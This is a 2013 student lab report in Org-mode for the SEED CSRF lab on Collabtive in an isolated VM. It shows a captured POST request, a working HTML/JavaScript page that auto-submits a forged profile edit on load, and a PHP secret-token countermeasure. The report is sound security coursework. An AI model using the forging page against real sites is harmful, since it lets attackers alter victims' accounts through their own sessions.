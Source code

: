 #+TITLE: 2013-FA-CS-336-LA-04-AndyS-SheaN
#+AUTHOR: Andrew Schwartzmeyer, Shea Newton
#+OPTIONS: toc:nil num:nil

| Year and Semester: | 2013 FALL                         |
| Course Number:     | CS-336                            |
| Course Title:      | Intro. to Information Assurance   |
| Work Number:       | LA-04                             |
| Work Name:         | Cross-Site Request Forgery        |
| Work Version:      | Version 1                         |
| Long Date:         | Tuesday, 10 November 2013         |
| Author Names:      | Andrew Schwartzmeyer, Shea Newton |

* TODO LA-04 NetSec  ::noexport::
   DEADLINE: <2013-11-10 Sun>
For this laboratory assignment please follow the instructions in the
laboratory in the link below and for preparing your laboratory report
please follow the instructions in this posting plus all the guidelines
posted within this course site under Course Info -> Coursework
Submission Instructions -> LA-Laboratory Report Submissions.

Cross-Site Request Forgery

Laboratory Instructions:

http://www.cis.syr.edu/~wedu/seed/Labs/Web/CSRF_Collabtive/

These laboratories have been developed by Wenliang Du of Syracuse
University and collaborators with sponsorship from the National
Science Foundation (NSF).

This is a group assignment (groups of 2 that will be determined in
class). Please submit a laboratory report as described within this
course site. Both students in the group will obtain the same grade and
only one student in the group needs to submit.

Additional Requirements:

0) When you create the VM it is mandatory that you configure the
   virtual Network to Internal Network.

VERY IMPORTANT: Before starting the laboratory please change the logon
credentials for both Ubuntu users and the mysql user.

1) In addition to describing with detail all the steps you carried out
   and their corresponding rationale and answering all the questions
   posted within the linked lab, please do the following:

2) Comment the code with high detail and include in your laboratory
   report those relevant portions of the code and their corresponding
   non-vulnerable versions.

3) Clearly specify, for example by highlighting, where the presented
   code is vulnerable.

4) Present a new version of the code that is not vulnerable, even when
   compiled and run with all compiler and system protection mechanisms
   disabled. Show, in the description and experimentally, that your
   improved version does not contain the same vulnerability.

5) Prepare and submit a laboratory report in PDF following the
   guidelines posted within this course site under Course Info ->
   Coursework Submission Instructions -> LA-Laboratory Report
   Submissions.


* Abstract
The purpose of this report is to detail the implications of cross-site
request forgery(CSRF) vulnerabilities. The CSRF attack detailed in
this lab allows a malicious site to inject an HTTP request into a
trusted site's active user session in order to impersonate the user
and forge their input. Beyond exploring the threat this vulnerability
represents, this report details a countermeasure, involving validating
a secret token, that may be used in order to secure a site against
this type of attack.

* Problem and Background

* Problem Detail

* Tasks
** Task 0: Setup the VM

Our first task is to properly setup the provided virtual machine
environment in which we will complete this lab. We are given an Ubuntu
Desktop 11.04 VM, and the first order of business is to lock it
down. To do this we set its virtual network adaptor to "Internal
Network" so that it cannot communicate with any other machine, then we
change the credentials of both Ubuntu users and the MySQL user
(although the latter is not used in this lab).

** Task 1: Modifying the Victim's Profile

Before we can modify the victim's profile, we need to capture a POST
request of the user submitting the edit profile form (as it is this
request we will be forging). To do this, we opened up Collabtive,
logged in as "bob", navigated to the edit profile form, opened the
Live HTTP Headers extension, cleared it, submitted the form, and went
back to the extension, which captured the initial POST request for us
(in addition to all the subsequent GET requests made by the browser
drawing the new page). The captured POST request is reproduced here,
with the GET requests removed for brevity.

#+begin_src txt
http://localhost/CSRF/Collabtive/manageuser.php?action=edit

POST /CSRF/Collabtive/manageuser.php?action=edit HTTP/1.1 Host:
localhost User-Agent: Mozilla/5.0 (X11; Linux i686; rv:5.0)
Gecko/20100101 Firefox/5.0 Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5 Accept-Encoding: gzip, deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7 Connection: keep-alive
Referer:
http://localhost/CSRF/Collabtive/manageuser.php?action=editform&id=3
Cookie: PHPSESSID=88n5386bqoes4rs843oviuh731 Content-Type:
multipart/form-data;
boundary=---------------------------20367708811588547619618939618
Content-Length: 2265
-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="name"

bob -----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="userfile"; filename=""
Content-Type: application/octet-stream


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="file-$myprojects[project].ID"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="company"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="email"

bob@example.com
-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="web"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="tel1"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="tel2"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="address1"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="zip"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="address2"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="country"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="state"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="gender"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="locale"

en -----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="admin"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="oldpass"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="newpass"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="repeatpass"


-----------------------------20367708811588547619618939618--

HTTP/1.1 302 Found Date: Sun, 10 Nov 2013 02:02:32 GMT Server:
Apache/2.2.17 (Ubuntu) X-Powered-By: PHP/5.3.5-1ubuntu7.2 Expires:
Thu, 19 Nov 1981 08:52:00 GMT Cache-Control: no-store, no-cache,
must-revalidate, post-check=0, pre-check=0 Pragma: no-cache Location:
http://localhost/CSRF/Collabtive/manageuser.php?action=profile&id=3&mode=edited
Content-Encoding: gzip Vary: Accept-Encoding Content-Length: 26
Keep-Alive: timeout=15, max=100 Connection: Keep-Alive Content-Type:
text/html; charset=utf-8
----------------------------------------------------------
#+end_src

With the captured request, we now have the information (namely the
requests' structure) required for us to forge a new one. Next we need
to make an HTML page for our attack, with a hidden form filled with
our desired changes, and some embedded Javascript to submit it through
a POST request.

#+begin_src html
  <!DOCTYPE html>
  <!--
  This code was provided by the lab's author Wenliang Du, of Syracuse
  University under the GNU Free Documentation License
  
  Editted by us to make our desired changes, and post to the correct
  URL.
  -->
  <html>
  <title>
  </title>
  <body>
  <h1>
  This page forges an HTTP POST request.
  </h1>
  <script type="text/javascript">
  function post(url,fields) {
     //create a <form> element.
     var p = document.createElement('form');
     //construct the form
     p.action = url;
     p.innerHTML = fields;
     p.target = 'self';
     p.method = 'post';
     //append the form to the current page.
     document.body.appendChild(p);
     //submit the form
     p.submit();
  }
  
  function csrf_hack() {
  var fields;
     // The following are form entries that need to be filled out
     //     by attackers. The entries are made hidden, so the victim
     //     won't be able to see them.
     fields += "<input type='hidden' name='name' value='notbob' />";
     fields += "<input type='hidden' name='gender' value='female' />";
     fields += "<input type='hidden' name='company' value='seed' />";
     post('http://localhost/CSRF/Collabtive/manageuser.php?action=edit',fields);
  }
  // invoke csrf_hack() after the page is loaded.
  window.onload = function() { csrf_hack(); }
  </script>
  </body>
  </html>
#+end_src

Now if we login to a user (we chose 'bob'), and then in a separate
browser tab open the attack code at
http://localhost/CSRF/Attack/index.html, our cross-site request
forgery will change bob's name to 'notbob', transgender him, and
assign him to our company 'seed'. This is done when the csrf_hack()
JavaScript function is called (on page load through the
'window.onload' hook), which adds our three HTML form inputs to a
fields variable, and submits this and the attack URL
('http://localhost/CSRF/Collabtive/manageuser.php?action=edit') to the
function post(), which creates an HTML form element on the document
and puts it into a temporary variable, assigns the url to the action
of the element, puts the value of fields into the element's inner
HTML, assigns the element as target, makes the element's method a POST
request, appends the element as a child to the body of the HTML
document, and calls submit on the element. This final action causes
the actual POST request with the hidden HTML form to be submitted to
the target URL, which in turn edit's the users profile because the
destination server cannot distinguish the forged request because it
trusts (through the browser's cookie) the user's authentication.

** Task 2: Implementing a countermeasure for Collabtive

Because cross-site request forgeries depend on the server blindly
reauthenticating the user through their cookie (which is obviously
quite vulnerable), protecting a web application from an CSRF attack is
actually quite easy. It simply requires implementation better
authentication. The method the lab instructs us to use is that of
secret-token authentication: our edit user form can include a hidden
field with a secret ID (normally the value of the session cookie),
which the server can use to validate an incoming POST request. If the
request does not have the SID, or it does not match, the server can
reject the request and thus deny the attack.

To implement this, first we add the following code into edit user form
template file located at
`/var/www/CSRF/Collabtive/templates/standard/edituserform.tpl`.

#+begin_src html
...
  <input type = "hidden" name = "sid" value = "" />
...
  <button type="submit" onclick="this.form.sid.value = document.cookie"
    onfocus="this.blur()">{#send#}</button>
...
#+end_src

This adds the hidden input 'sid', and on the click of the form send
button, assigns the value of the session cookie to the value of the
sid input.

Next we need to implement the SID validation. In the file
`/var/www/CSRF/Collabtive/manageuser.php`, we add the following
validation check inside the first logical if statement (which checks
that our action is not one of "login", "logout", "resetpassword", or
"loginerror", so it will pass for "edit").

#+begin_src php
  if ($action == "edit" &&
      $_COOKIE["PHPSESSID"] !=
        str_replace("PHPSESSID=", "", getArrayVal($_POST, "sid"))) { 
    echo("Cookie and SID unmatched");
    die();
  }
#+end_src

This checks if our action is an edit, and if so, it validates that the
value of the cookie `$_COOKIE["PHPSESSID"]` against the value of the
"sid" from the POST request (which has been parsed by str_replace to
get rid of the extraneous string "PHPSESSID="). If they do not match,
it echoes such and subsequently dies, denying the attack. Note also
that this approach does not require a JavaScript string operation,
only the PHP str_replace() function.

With the countermeasure implemented, we attempt to re-execute our
prior attack. This fails as expected, with the message "Cookie and SID
unmatched". We can get around this by capturing a POST session of the
user containing either the SID or cookie value, and then replicating
this in our forged request. However, this would require a live
man-the-middle attack to gain the necessary data. Without this
information, we cannot get around this defense.

* Code

Detailed in Tasks Section

* Answers

Detailed in Tasks Section

* References

Du, Wenliang. 2006-2013. "Cross-Site Request Forgery (CSRF) Attack Lab". http://www.cis.syr.edu/~wedu/seed/Labs/Web/CSRF_Collabtive/
